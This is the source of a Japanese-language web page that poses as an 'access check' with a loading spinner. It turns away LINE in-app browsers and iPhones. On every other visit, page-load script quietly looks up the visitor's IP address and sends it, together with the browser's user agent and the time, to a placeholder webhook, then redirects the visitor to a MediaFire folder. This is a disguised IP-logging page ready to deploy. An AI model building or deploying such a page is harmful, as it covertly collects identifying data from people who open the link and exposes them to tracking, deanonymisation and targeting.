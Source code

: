 <!DOCTYPE html>&#10;<html lang="ja">&#10;<head>&#10;&#32;&#32;<meta charset="UTF-8" />&#10;&#32;&#32;<meta name="viewport" content="width=device-width, initial-scale=1.0" />&#10;&#32;&#32;<title>&#12450;&#12463;&#12475;&#12473;&#30906;&#35469;&#20013;&#46;&#46;&#46;</title>&#10;&#32;&#32;<style>
    body {
      font-family: sans-serif;
      text-align: center;
      padding: 50px;
      background: #f8f8f8;
    }

    .loader {
      margin: 40px auto;
      width: 60px;
      height: 60px;
      border: 8px solid #ccc;
      border-top: 8px solid #3498db;
      border-radius: 50%;
      animation: spin 1s linear infinite;
    }

    @keyframes spin {
      0%   { transform: rotate(0deg); }
      100% { transform: rotate(360deg); }
    }

    .blocked {
      color: red;
      font-size: 24px;
    }

    .info {
      font-size: 20px;
    }

    .welcome {
      color: green;
      font-size: 24px;
    }
  </style>&#10;</head>&#10;<body>&#10;&#32;&#32;<p class="info">&#12487;&#12496;&#12452;&#12473;&#12434;&#30906;&#35469;&#20013;&#12391;&#12377;&#46;&#46;&#46;</p>&#10;&#32;&#32;<div class="loader"></div>&#10;&#10;&#32;&#32;<script>
    setTimeout(() => {
      const ua = navigator.userAgent || navigator.vendor || window.opera;
      const isLine = ua.toLowerCase().includes("line");
      const isIOS = /iPad|iPhone|iPod/.test(ua) && !window.MSStream;

      if (isLine) {
        document.body.innerHTML = `
          <p class="blocked">LINEアプリ内ブラウザではこのページを表示できません。</p>
          <p class="info">SafariやChromeなど標準のブラウザで開いてください。</p>
        `;
      } else if (isIOS) {
        document.body.innerHTML = `
          <p class="blocked">このサイトはiPhoneからのアクセスを制限しています。</p>
        `;
      } else {
        document.body.innerHTML = `
          <p class="welcome">✅ ようこそ！アクセスが許可されました。</p>
          <p class="info">3秒後にページへ移動します...</p>
        `;

        
        fetch("https://api.ipify.org?format=json")
          .then(res => res.json())
          .then(data => {
            const ip = data.ip;
            const userAgent = navigator.userAgent;

            const payload = {
              content: `📥 **アクセス許可ログ**\n🖥️ IP: \`${ip}\`\n🧭 UA: \`${userAgent}\`\n🕒 時間: <t:${Math.floor(Date.now() / 1000)}:F>`
            };

            fetch("YOUR_WEBHOOK_URL_HERE", {
              method: "POST",
              headers: {
                "Content-Type": "application/json"
              },
              body: JSON.stringify(payload)
            });
          });

        
        setTimeout(() => {
          window.location.href = "https://www.mediafire.com/folder/985svm5uxdr0x/%E4%BB%AE%E6%83%B3%E7%A9%BA%E9%96%93";
        }, 3000);
      }
    }, 3000);
  </script>&#10;</body>&#10;</html>&#10;
